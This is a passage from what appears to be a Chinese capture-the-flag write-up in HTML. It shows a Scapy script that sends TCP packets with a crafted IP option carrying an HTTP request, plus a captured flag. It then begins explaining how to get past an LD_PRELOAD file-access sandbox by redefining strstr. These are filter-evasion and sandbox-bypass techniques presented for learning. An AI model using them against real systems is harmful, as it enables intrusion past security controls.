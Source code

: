 149:u149="""</span><span class="token punctuation">.</span>decode<span class="token punctuation">(</span><span class="token string">'utf-8'</span><span class="token punctuation">)</span>

<span class="token keyword">try</span><span class="token punctuation">:</span>
    spk1 <span class="token operator">=</span> IP<span class="token punctuation">(</span>dst<span class="token operator">=</span>dst_ip<span class="token punctuation">,</span> options<span class="token operator">=</span>IPOption<span class="token punctuation">(</span><span class="token string">b'\x21\x0CGET / HTTP'</span><span class="token punctuation">)</span><span class="token punctuation">)</span> <span class="token operator">/</span> TCP<span class="token punctuation">(</span>dport<span class="token operator">=</span>dst_port<span class="token punctuation">,</span> sport<span class="token operator">=</span>src_port<span class="token punctuation">,</span> flags<span class="token operator">=</span><span class="token string">"S"</span><span class="token punctuation">)</span>
    res1 <span class="token operator">=</span> sr1<span class="token punctuation">(</span>spk1<span class="token punctuation">)</span>
    <span class="token keyword">print</span><span class="token punctuation">(</span>res1<span class="token punctuation">)</span>
    ack1 <span class="token operator">=</span> res1<span class="token punctuation">[</span>TCP<span class="token punctuation">]</span><span class="token punctuation">.</span>ack
    ack2 <span class="token operator">=</span> res1<span class="token punctuation">[</span>TCP<span class="token punctuation">]</span><span class="token punctuation">.</span>seq <span class="token operator">+</span> <span class="token number">1</span>
    spk2 <span class="token operator">=</span> IP<span class="token punctuation">(</span>dst<span class="token operator">=</span>dst_ip<span class="token punctuation">,</span> options<span class="token operator">=</span>IPOption<span class="token punctuation">(</span><span class="token string">b'\x21\x0CGET / HTTP'</span><span class="token punctuation">)</span><span class="token punctuation">)</span> <span class="token operator">/</span> TCP<span class="token punctuation">(</span>dport<span class="token operator">=</span>dst_port<span class="token punctuation">,</span> sport<span class="token operator">=</span>src_port<span class="token punctuation">,</span> seq<span class="token operator">=</span>ack1<span class="token punctuation">,</span> ack<span class="token operator">=</span>ack2<span class="token punctuation">,</span> falgs<span class="token operator">=</span><span class="token string">"A"</span><span class="token punctuation">)</span>
    send<span class="token punctuation">(</span>spk2<span class="token punctuation">)</span>
<span class="token keyword">except</span> Exception <span class="token keyword">as</span> e<span class="token punctuation">:</span>
    <span class="token keyword">print</span><span class="token punctuation">(</span>e<span class="token punctuation">)</span>
da1 <span class="token operator">=</span> IP<span class="token punctuation">(</span>dst<span class="token operator">=</span>dst_ip<span class="token punctuation">,</span> options<span class="token operator">=</span>IPOption<span class="token punctuation">(</span><span class="token string">b'\x21\x0CGET / HTTP'</span><span class="token punctuation">)</span><span class="token punctuation">)</span> <span class="token operator">/</span> TCP<span class="token punctuation">(</span>dport<span class="token operator">=</span>dst_port<span class="token punctuation">,</span> sport<span class="token operator">=</span>src_port<span class="token punctuation">,</span> seq<span class="token operator">=</span>ack1<span class="token punctuation">,</span> ack<span class="token operator">=</span>ack2<span class="token punctuation">,</span> flags<span class="token operator">=</span><span class="token number">24</span><span class="token punctuation">)</span> <span class="token operator">/</span> data
res2 <span class="token operator">=</span> sr1<span class="token punctuation">(</span>da1<span class="token punctuation">)</span>

<span class="token comment"># flag{1p_OoOpt10ns_c0fa9b7b01}</span>
</code></pre>
<h2 id="%E4%B8%BA%E4%BB%80%E4%B9%88%E8%A6%81%E6%89%93%E5%BC%80-%2Fflag-%F0%9F%98%A1" tabindex="-1"><a class="header-anchor" href="#%E4%B8%BA%E4%BB%80%E4%B9%88%E8%A6%81%E6%89%93%E5%BC%80-%2Fflag-%F0%9F%98%A1" data-clickable=""><span>为什么要打开 /flag 😡</span></a></h2>
<p>第一题，<code>LD_PRELOAD</code> 导致 <code>open</code> 等函数变成了被指定的库中的函数。</p>
<p>搜了大半天没找到怎么绕过 <code>LD_PRELOAD</code> （不过官方题解说只要静态编译就好了）。</p>
<p>于是看了看提供的被修改的库，发现 <code>isflag</code> 函数调用了 <code>strstr</code> ，而 <code>strstr</code> 没有在该库中被定义。</p>
<p>抱着随便试一试的心态，自己定义了 <code>strstr</code> 这个函数，使其始终返回 <code>NULL</code> ，结果就过了。</p>
<pre class="language-c"><code class="language-c"><span class="token macro property"><span class="token directive-hash">#</span><span class="token directive keyword">include</span> <span class="token string">&lt;stdio.h></span></span>
<span class="token macro property"><span class="token directive-hash">#</span><span class="token directive keyword">include</span> <span class="token string">&lt;fcntl.h></span></span>